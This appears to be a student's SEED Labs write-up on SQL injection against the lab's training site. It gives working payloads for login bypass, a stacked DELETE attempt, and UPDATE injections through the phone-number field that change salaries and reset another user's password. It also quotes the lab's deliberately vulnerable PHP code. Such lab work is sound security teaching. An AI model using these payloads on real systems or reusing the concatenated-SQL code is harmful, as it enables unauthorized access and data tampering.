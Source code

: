 # SQL-Injection-Attack
<h1>Task 1</h1>
<h3>Login MYSQL:</h3>
<p>mysql -u root -pseedubuntu<br>
   mysql> use Users;<br>
   mysql> show tables;<br>
</p>
<h3>Use Such a SQL Query:</h3>
<p>select * from credential where Name = 'Alice';</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h1>Task 2</h1>
<h2>Task 2.1</h2>
<ul>
<li>USERNAME: "Admin' #"</li>
<li>PASSWORD: "***" whatever the password was</li> 
</ul>
<h3>It will result in a SQL Query as:</h3>
<p>SELECT id, name, eid, salary, birth, ssn, address, email,<br>
   nickname, Password<br> 
   FROM credential<br>
   WHERE name= 'Admin' #' and Password='***'
   </p>
<p>Then statement after <code>#</code> will bi regarded as comments. So we can login in as <code> Admin</code>.</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.2</h2>
<pre>
<code>
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
</code>
</pre>
<p>It will return a bunch of <code>html</code>code. When exporting outputs to file by<code> > temp.html</code>and open it</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.3</h2>
<p>We neeed to delete such a statement to append a row to current database:</p>
<code>DELETE credential where name='ted';
</code><br>
<p>So constructed:</p>
<ul>
<li>USERNAME: <code>" '1=1; DELETE credential where name='ted';#"</code></li>
<li>PASSWORD: <code>" "</code> (Remain Blank)</li> 
</ul>
<p>It fails and alerts with a syntax error:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Because in PHP's <code>mysqli</code> extension, which invokes <code>mysqli::query</code>  API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.</p>
<h1>Task 3</h1>
<p>It's hard to find the navigation buttons on this website <br>(<a href="http://www.SeedLabSQLInjection.com" rel="nofollow">www.SeedLabSQLInjection.com</a>).
<p>In order to edit the profile, please log in and then jump to the link address: <br><a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a> by Hand.</p>
<h2>Task 3.1</h2>
<p>Log in with Alice's username and password, enter <br> <a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a></p>
<p>Modify Phone Number as <code>', Salary=500000</code> and save</p>
<h2>Task 3.2</h2>
<p>Log in with username <code>Boby' #</code>  and arbitrary password, open his profile edit page.</p>
<p>Fill in with:</p>
<p>Phone Number: <code>', Salary=1</code></p>
<p>And keep other properties unchanged. Submit the modification.</p>
<p>Now, you can see:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Log-in as Alice</p>
<p>Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.</p>
<p>We should change the Phone Number as</p> 
<pre><code>', Salary=1 where name='Boby' #</code></pre>
<h2>Task 3.3</h2>
<p>Of course, the simplest approach is to log-in as Boby like <code>Task 3.2</code> and change the password.</p>
<p>If we must do all things and keep log-in with Alice's own account. We might face such an issue:</p>
<p>According to code below in <code>unsafe_edit_backend.php</code>, if <strong>Password</strong> is to be updated, the session's <code>pwd</code> will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.</p>
<pre><span class="pl-s1"><span class="pl-c1">$</span>conn</span> = <span class="pl-en">getDB</span>();
<span class="pl-c">// Don't do this, this is not safe against SQL injection attack</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span>=<span class="pl-s">""</span>;
<span class="pl-k">if</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>!=<span class="pl-s">''</span>){
<span class="pl-c">// In case password field is not empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>hashed_</span> = <span class="pl-en">sha1</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>);
<span class="pl-c">//Update the password stored in the session.</span>
<span class="pl-s1"><span class="pl-c1">$</span><span class="pl-c1">_SESSION</span></span>[<span class="pl-s">'pwd'</span>]=<span class="pl-s1"><span class="pl-c1">$</span>hashed_pwd</span>;
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}<span class="pl-k">else</span>{
<span class="pl-c">// if passowrd field is empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">query</span>(<span class="pl-s1"><span class="pl-c1">$</span>sql</span>);
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">close</span>();
<span class="pl-en">header</span>(<span class="pl-s">"Location: unsafe_home.php"</span>);
<span class="pl-en">exit</span>();</pre>
<p>We should do all things in <strong>Phone Number</strong> field.</p>
<p>Assume we want to change Boby's password as <code>tedwashere</code>. First, we should get SHA1 value of our new password via some <a href="http://www.sha1-online.com/" rel="nofollow">online tool</a> as</p>
<pre><code>1b3263246794fe4094be7ae99e21b34454d9676f
</code></pre>
<p>Then construct <strong>Phone Number</strong> as:</p>
<pre><code>', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
</code></pre>
<p>and save. Now, the change works. You can log in with username <code>Boby</code> and password <code>tedwashere</code>.</p>
<p>Verify:</p>
<p>Screen shoot is in SQL Injection Folder</p>

